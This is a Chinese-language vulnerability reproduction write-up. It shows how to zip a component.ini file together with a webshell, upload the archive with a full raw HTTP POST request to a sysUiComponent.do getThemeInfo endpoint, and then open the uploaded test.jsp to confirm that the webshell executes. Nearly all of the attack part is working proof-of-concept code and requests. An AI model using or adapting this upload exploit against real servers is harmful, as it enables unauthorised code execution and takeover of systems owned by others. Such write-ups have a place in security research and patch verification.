 ## 0x02 漏洞复现

首先创建一个压缩文件里面包含`component.ini`和`webshell`

其中`component.ini`配置如下：

```php
id=2023
name=check.txt
```

两者打包成压缩包，通过如下poc上传

```php
POST /sys/ui/sys_ui_component/sysUiComponent.do?method=getThemeInfo&s_ajax=true HTTP/1.1
Host: IP:PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://.com/sys/ui/sys_ui_component/sysUiComponent.do?method=upload
Content-Length: 474
Content-Type: multipart/form-data; boundary=---------------------------15610248407689
Cookie: SESSION=YmI0OGMyZDQtZDE0NC00MTQ2LWJmMzMtNWE5NDMwOTYxM2Ex
DNT: 1
Connection: close

-----------------------------15610248407689
Content-Disposition: form-data; name="file"; filename="test.zip"
Content-Type: application/x-zip-compressed

PKx3;x4;x14;
-----------------------------15610248407689
```

![image-20231207183340445](assets/1703831543-5f343434efeda44fa7288509b5a1e888.jpg)

访问`/resource/ui-component/2023/test.jsp`，成功解析
